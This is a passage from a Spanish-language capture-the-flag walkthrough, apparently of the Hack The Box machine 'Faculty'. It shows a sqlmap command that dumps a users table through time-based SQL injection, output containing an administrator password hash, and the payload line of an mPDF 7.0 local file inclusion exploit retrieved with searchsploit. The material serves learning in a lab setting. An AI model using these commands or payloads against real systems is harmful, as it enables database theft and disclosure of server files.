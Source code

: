 ```r
❯ sqlmap --risk 3 --level 5 --random-agent -r ./request --technique=T --time-sec=1 --batch --dump -D scheduling_db -T users
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8.3#stable}
|_ -| . [.]     | . | . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

|1 |Administrator|1|1fecbe762af147c1176a0fc2c722a345|admin|
```
*Vemos que hemos obtenido las credenciales...*

![[Pasted image 20241008201613.png]]
*Ahora vamos a ver un poco las web... Hay algo que nos llama la atención.*

![[Pasted image 20241008201638.png]]
*Probamos a generar un pdf y podemos ver en la url /mpdf/*
# Explotación
*En esta fase vamos a ya tener un vector de ataque previamente enumerado y vamos a explotarlo.*

```r
❯ searchsploit mpdf
mPDF 7.0 - Local File Inclusion | php/webapps/50995.py
```
*Vemos este recurso que es interesante...*

```r
❯ searchsploit -m php/webapps/50995.py
  Exploit: mPDF 7.0 - Local File Inclusion
      URL: https://www.exploit-db.com/exploits/50995
     Path: /usr/share/exploitdb/exploits/php/webapps/50995.py
    Codes: N/A
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/user/HTB/Faculty/content/50995.py
```
*Copiamos el recurso....*

```python
payload = f'<annotation file="{fname}" content="{fname}" icon="Graph" title="Attached File: {fname}" pos-x="195" />'
```
*Podemos ver esto en el codigo...*

![[Pasted image 20241008202513.png]]
*Podemos ver que es una especie de HTML*

![[Pasted image 20241008203703.png]]
*Podemos ver que tenemos esta cadena...*
